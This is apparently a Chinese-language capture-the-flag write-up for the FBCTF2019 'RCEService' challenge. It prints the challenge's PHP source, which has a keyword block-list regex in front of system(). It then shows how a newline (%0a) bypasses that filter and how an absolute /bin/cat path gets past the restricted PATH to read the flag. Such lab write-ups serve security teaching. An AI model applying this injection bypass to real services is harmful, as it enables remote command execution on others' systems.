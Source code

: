 # [FBCTF2019]RCEService
![](<./img/Pasted image 20221224090401.png>)

---
首页长这样

![](<./img/Pasted image 20221224090929.png>)

要我们输入一个`json`字符串，通过`cmd`查询传递，因而推测键名也为`cmd`
```json
{"cmd": "ls"}
```

> Attempting to run command:  
index.php

尝试获取`index.php`的内容

```json
{"cmd": "cat index.php"}
```

> Hacking attempt detected

多次尝试无果，寻求`wp`帮助QAQ

然后发现原题离谱地提供了源码

![](<./img/Pasted image 20221224093015.png>)

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

通过`preg_match`实现`WAF`，直接通过`%0a`绕过单行匹配中的`.*`

```
{%0a"cmd": "cat index.php"%0a}
```

> Attempting to run command:

没有回显，非常奇怪nanoda

```php
putenv('PATH=/home/rceservice/jail');
```
![](<./img/Pasted image 20221224094442.png>)

emmm，这波是`PATH`被挟持了，问题不大，用绝对路径应该就行

尝试查看`/home/rceservice/jail`下面的东西
```
{%0a"cmd": "ls /home/rceservice/jail"%0a}
```

> Attempting to run command:
ls

好家伙，真就只给了`ls`
```
{%0a"cmd": "ls /home/rceservice"%0a}
```

> Attempting to run command:  
flag jail

```
{%0a"cmd": "/bin/cat /home/rceservice/flag"%0a}
```

> Attempting to run command:  
flag{f632fadd-2fad-439f-b5e1-75acf38cc1f3}
